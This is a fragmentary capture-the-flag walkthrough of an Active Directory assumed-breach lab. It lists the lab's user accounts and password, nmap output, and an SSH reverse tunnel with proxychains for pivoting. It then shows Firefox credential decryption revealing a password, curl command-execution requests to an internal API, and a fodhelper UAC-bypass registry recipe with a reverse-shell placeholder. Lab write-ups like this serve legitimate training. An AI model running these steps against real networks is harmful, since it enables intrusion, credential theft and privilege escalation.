



### Lab Intro

In this Assumed-Breach Scenario, your main objective is getting domain administrator privileges in the "ifrit.vl" Domain. The company created the following low-privileged user accounts in the "eu-ifrit.vl" domain for you:


```
# Users
Caroline.Hunter
Michelle.Jordan
Wendy.French
Joyce.Johnson
Kathleen.Walker
Tina.Dawson
Gavin.Dixon
Robin.Smith
Marcus.Taylor
Jemma.Smith
Annette.King
Mohammed.Ward
Laura.Robinson
Henry.Jordan
Bernard.Turner
Peter.Nash
Jade.Perry
Barry.Cox
Martin.Marsden
Grace.Dunn

# Password
PenEuIfrit527#
```

You can use these accounts to log into a VDI environment at [https://vdi02.eu-ifrit.vl/RDWeb/](https://vdi02.eu-ifrit.vl/RDWeb/) (172.16.40.225).

Besides reaching the main objective, your secondary goal is to complete the objective without triggering any detection. If you manage to do so, please write a message to xct. Please do not RDP to DEV05, a user is working on a critical project there.


#### Hints & Comments

- Make sure you have good enumeration methodology that includes at least: AD, ADCS, Shares, Ports, Services, Installed Programs, Users on Machines. Good enumeration is key - both here and in real environments.
    
- The 172.16.41.0/24 Subnet is behind a network firewall - you won't be able to reach your own attacker machine on all ports (but on some).
    
- Not everything you see is exploitable - go for the low hanging fruits as you would on real engagements.


### INITIAL_ACCESS


```
Nmap scan report for vdi02.eu-ifrit.vl (172.16.40.225)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3389/tcp open  ms-wbt-server
```

Starting a proxy to reach the internal networks !

```shell
ssh -R 8080 kali@10.8.0.163 -p 22 -N
```

```
└─# proxychains -q crackmapexec smb 172.16.41.1/24
```





Here inside home-backup --> We found a vhdx file [ transferring it to the windows vm found some intresting files ]

Copy both files from Jack_Smith -->  Profile folder to the Attacker Box kali !  

 


└─# python firepwd.py  

decrypting login/password pairs

 http://git.ifrit.vl :: jack.smith@ifrit.vl :: JigokuNoKaen10


http://172.16.40.150/ --> Login 


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic $(echo -n 'dev:dev-5381' | base64)"   -d '{"query":"cpu get caption"}' -v


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic ZGV2OmRldi01Mzgx"   -d '{"query":"cpu get caption"}' -v


https://gitbook.seguranca-informatica.pt/privilege-escalation-privesc/uac-bypass

```
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
cmd -> fodhelper

Spaw anything:
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value 'your-reverse-shell' -Force
```


